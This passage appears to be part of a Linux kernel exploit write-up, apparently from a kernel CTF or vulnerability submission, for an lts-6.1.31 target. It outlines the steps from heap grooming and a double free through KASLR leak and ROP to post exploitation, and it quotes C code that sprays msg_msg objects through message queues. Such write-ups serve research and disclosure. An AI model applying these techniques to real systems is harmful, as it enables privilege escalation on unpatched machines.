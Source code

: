 Pinning the current task into CPU core 0 with `sched_setaffinity` syscall. This is to maintain the exploit context in the same core to utilize percpu slab cache and freelist.

## 6. Exploit for LTS 6.1.31 Instance

In this section, we discuss the exploit in detail for `lts-6.1.31` instances.

### 6.1 Overview
This exploit takes the following steps:
1. Preparation for object manipulation
2. Heap grooming
3. Triggering the vulnerability for overlapping chunks
5. Heap leak
6. KASLR leak
7. PC control for ROP
8. Post exploitation

### 6.2 Preparation for object manipulation
First, we initialize the message queues to manipulate `struct msg_msg` and `struct msg_msgseg`, which are the core objects for `lts-6.1.31` exploit.

- [exploit/extra-refined/exploit.c#L740](../exploit/extra-refined/exploit.c#L740)
```c
init_msgq(msgqids1, 3);
init_msgq(&msgqid3, 1);

// for prevent accessing corrupted freelist
// ...and for objects to leak
// 1k -> TARGET_CACHE (512)
// (for struct pipe_buf) -> (for reclaim)
init_msgq(msgqids2, MSG_MSG_SPRAY_CNT);
```

Each message queue performs the following roles.
 - `msgqids1` is used to reclaim double-freed chunks.
 - `msgqids2` is used for two purposes: to leak the address of `kmalloc-cg-1k` slab chunks and to populate the corrupted freelist.
 - `msgqid3` is used to allocate `struct msg_msgseg` objects.
	
### 6.3 Heap grooming
- [exploit/extra-refined/exploit.c#L750](../exploit/extra-refined/exploit.c#L750)
```c
// defragmentation
spray_msgsnd(msgqids2, MSG_MSG_SPRAY_CNT, 0x400, buf, 1, 2);
spray_msgsnd(msgqids2, MSG_MSG_SPRAY_CNT, CG_MSG_MSG_SIZE, buf, 1, 2);
release_msg(msgqids2, MSG_MSG_SPRAY_CNT);
release_msg(msgqids2, MSG_MSG_SPRAY_CNT);
```
- [exploit/extra-refined/exploit.c#L212](../exploit/extra-refined/exploit.c#L212)
```c
int send_msg(int msgqid, char * data, size_t size, long mtype){
        struct msgp * m = malloc(sizeof(long) + size);
        int ret = -1;
        memcpy(m->mtext, data, size);
        m->mtype = mtype;

        ret = msgsnd(msgqid, m, size, 0);

        free(m);
        return ret;
}

void spray_msgsnd(int * msgq_arr, size_t spray_size, size_t cache_size, char * data, size_t iter, long mtype){
```